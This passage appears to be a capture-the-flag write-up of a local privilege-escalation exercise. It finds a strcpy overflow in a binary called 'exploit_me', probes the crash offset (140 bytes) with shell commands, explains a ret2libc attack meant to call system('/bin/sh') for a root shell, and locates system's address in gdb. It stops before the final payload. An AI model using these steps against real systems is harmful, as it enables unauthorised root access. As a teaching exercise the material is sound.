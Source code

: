 ```
0x080483f4  main
0x08048440  __libc_csu_init
0x080484b0  __libc_csu_fini
0x080484b2  __i686.get_pc_thunk.bx
0x080484c0  __do_global_ctors_aux
0x080484ec  _fini
```

We notice a call to the function `strcpy`. This function is vulnerable to buffer overflow, indeed it takes no parameters specifying the length of the string.

Testing the binary, we see that it echoes the argument we give it to stdout.

```
┌──(kali㉿kali)-[~]
└─$ ./exploit_me hello
hello
```

Let's confirm the size of the buffer using python.

```
┌──(kali㉿kali)-[~]
└─$ ./exploit_me `python -c 'print("A"*120)'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

┌──(kali㉿kali)-[~]
└─$ ./exploit_me `python -c 'print("A"*140)'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./exploit_me `python -c 'print("A"*140)'`

┌──(kali㉿kali)-[~]
└─$ ./exploit_me `python -c 'print("A"*139)'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

140 is thus our pivot to exploit the binary. The idea is to trick `exploit_me`, make it print 140 "A"s and then give it an address that will point to `/bin/sh` in order to launch a root shell. This technique is called **ret2libc**. The difference with a basic buffer overflow attack which would normally overwrite the return address with the address of a malicious function, is that we overwrite the address of the return function with the address of the `system` libc function. In this case we want the system function to launch `/bin/sh`, more precisely we want `system("/bin/sh")`.

To do so, let's follow these steps.

First, let's find the address of `system` using gdb.

```
zaz@BornToSecHackMe:~$ gdb exploit_me 
(gdb) b main
Breakpoint 1 at 0x80483f7
(gdb) run
Starting program: /home/zaz/exploit_me 
Breakpoint 1, 0x080483f7 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) 
```

